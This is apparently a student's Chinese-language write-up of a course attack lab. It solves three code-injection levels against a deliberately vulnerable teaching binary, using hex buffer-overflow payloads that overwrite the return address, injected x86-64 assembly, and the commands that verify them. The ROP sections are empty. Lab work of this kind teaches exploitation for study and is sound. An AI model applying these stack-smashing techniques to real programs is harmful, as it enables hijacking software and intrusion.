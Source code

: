 # Bomb_lab

> 作者：Xiaoma
>
> 完成时间：




## 实验目的

> 
>
> 

## 环境
Ubuntu18.04 + gdb


## 实验步骤与内容

### **Code Injection Attacks - Level1**

> 要求：在不注入新代码的情况下，利用字符串重定向程序，让**CTARGET**在执行**return**语句时执行**touch1**的代码，而不是返回**test**。

test函数的C语言代码为
```C++
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

touch1函数的C语言代码为
```C++
void touch1()
{
    vlevel = 1; /*Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

反汇编`test`

![](./img/1.png)

反汇编`getbuf`

![](./img/2.png)


此时，栈中的结构为

![](./img/3.png)

已知`touch1`的地址为`0x4017c0`

则首先使用任意字符串，将`getbuf`分配的长度为`0x28`的栈帧填满，此时再输入字符串，返回地址将被覆盖，若输入字符串为`touch1`的地址，`getbuf`执行完以后将返回`touch1`继续执行。

**注意小端存储对应的字节顺序**

使用`hex2raw`将16进制数转换为ASCII字符，并使用参数`-q`不连接服务器

`.txt`文件中的内容

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

验证答案

```shell
./hex2raw < ./CI_level1/ci_level1.txt | ./ctarget -q
```

![](./img/4.png)

Code Injection Attacks - Level1完成

### **Code Injection Attacks - Level2**

> 要求：注入代码重定向程序，让**CTARGET**在执行**return**语句时执行**touch2**的代码并将**cookie**作为**touch2**的参数传入


touch2函数的C语言代码为
```C++
void touch2(unsigned val)
{
    vlevel = 2; /*Part of validation protocol */
    if(val == cookie)
    {
        printf("Touch2! : You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

已知`touch2`函数的第一个参数在`%rdi`中，所以我们植入的代码所做的工作为：
- 执行`return`语句时使`pc`指向我们植入的代码
- 将`cookie`传入`%rdi`，已知`cookie`为`0x59b997fa`
- 跳转至`touch2`所在地址`0x4017ec`

查询执行`getbuf`时的栈顶指针

![](./img/5.png)

则此时栈中的结构为

![](./img/6.png)

需要植入的汇编指令为
```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

依次对汇编代码进行汇编和反汇编
```shell
gcc -c injectCode.s
objdump -d injectCode.o > injectCode.d 
cat injectCode.d
```

![](./img/7.png)

代码总计10字节，故`.txt`文件中的内容

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

验证答案

![](./img/8.png)

Code Injection Attacks - Level2完成

### **Code Injection Attacks - Level3**
>要求：注入代码重定向程序，让**CTARGET**在执行**return**语句时执行**touch3**的代码并将字符串作为**cookie**作为**touch3**的参数传入

hexmatch函数的C语言代码为

```C++
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

touch3函数的C语言代码为

```C++
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) 
    {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } 
    else 
    {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

```

已知`hexmatch`中，生成字符串的地址是随机的，若将表示`cookie`的字符串存储在`getbuf`的栈中，会有被覆盖的风险，所以将表示`cookie`的字符串存储在`test`的栈中。

查询`test`的栈顶指针

![](./img/9.png)

`touch3`的地址为`0x4018fa`


此时栈中的结构为

![](./img/10.png)

需要植入的汇编指令为
```asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

依次对汇编代码进行汇编和反汇编

```shell
gcc -c injectCode.s
objdump -d injectCode.o > injectCode.d 
cat injectCode.d
```

![](./img/11.png)

代码总计10字节，表示`cookie`的字符串为`35 39 62 39 39 37 66 61`，故.txt文件中的内容

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

验证答案

![](./img/12.png)

Code Injection Attacks - Level3完成

### Return-Oriented Programming - level2

### Return-Oriented Programming - level3